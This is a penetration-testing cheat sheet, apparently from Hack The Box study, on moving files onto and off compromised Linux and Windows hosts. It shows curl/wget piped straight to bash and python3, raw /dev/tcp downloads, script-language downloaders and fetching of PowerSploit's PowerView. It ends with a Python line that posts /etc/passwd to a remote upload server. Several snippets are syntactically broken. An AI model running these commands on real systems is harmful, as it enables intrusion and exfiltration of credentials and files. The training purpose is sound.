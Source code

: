 # Linux File Transfers
## Wget download

```bash
lemur@htb ~ $ wget https://raw.githubusercontent.com/rebootuser/LinEnum.sh -O /tmp/LinEnum.sh
```

## cURL download

```bash
lemur@htb ~ $ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum.sh
```

## Fileless attacks

Note that some payloads such as `mkfifo` write files to disk. 
Keep in mind that while the execution of the payload may be fileless when you use a pipe,
depending on the payload chosen it may create temporary files on the OS.

### Fileless downloads using cURL and Wget

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/rebootuser/helloworld.py | python3
```

### Download with bash (dev/tcp) 

Connect to target webserver:
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

HTTP GET request:
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

Print the response:
```bash
cat <&3
```

## Ultimate File Transfer List

https://github.com/egre55/ultimate-file-transfer-list

## Using Code to transfer files

Just download it:
```py
python3 -c 

import urllib.request
urllib.request.urlretrieve(
	"https://raw.githubuser.com/rebootuser/LinEnum/main/LinEnum.sh", "LinEnum.sh")

in python2.7 -c is just `import urllib; urllib.urlretrieve`
```

Just download it:
```php
php -r 
	$file = file_get_contents("
		https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh");

	file_put_contents("LinEnum.sh", $file);
```
Pipe it to Bash:
```php
php -r 
	$lines = @file("
		https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh");

foreach ($lines as $line_enum => $line) {
	echo $line;
	
	}' | bash
```
Use Popen:
```php
php -r 
	const BUFFER = 1024;

	$fremote = fopen("
		https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh", "rb");
	$flocal = fopen("
		LinEnum.sh", "wb");
	
	while ($buffer = fread($fremote, BUFFER)) {
		fwrite($flocal, $buffer);
	}
	fclose($flocal);
	fclose($fremote);
```

Just download it:
```ruby
ruby -e 
	require "net/http";

	File.write("LinEnum.sh", Net::HTTP.get(URI.parse(
		"https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh"
		)
	)
)
```

Just download it:
```perl
perl -e
	use LWP::Simple;
	getstore("https://raw.githubusercontent.com/LinEnum/main/LinEnum.sh", "LinEnum.sh");
```

Scripting using JavaScript:
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");

WinHttpReq.Open("GET", Wscript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Run the JS in Windows:
```PS
C:\> cscript.exe \nologo wget.js 
	https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 
	to: PowerView.ps1
```

Wget.vbs:
```vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")

xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
	.type = 1
	.open
	.write xHttp.responsebody
	.savetofile WScript.Arguments.Item(1), 2
end with
```

## Upload files with Code

```py
python3 -m uploadserver
```
```py
python3 -c 
	import requests;
	requests.post(
		"http://192.168.49.128:8000/upload",files={
		"files":open("/etc/passwd","rb")
		}
	)
```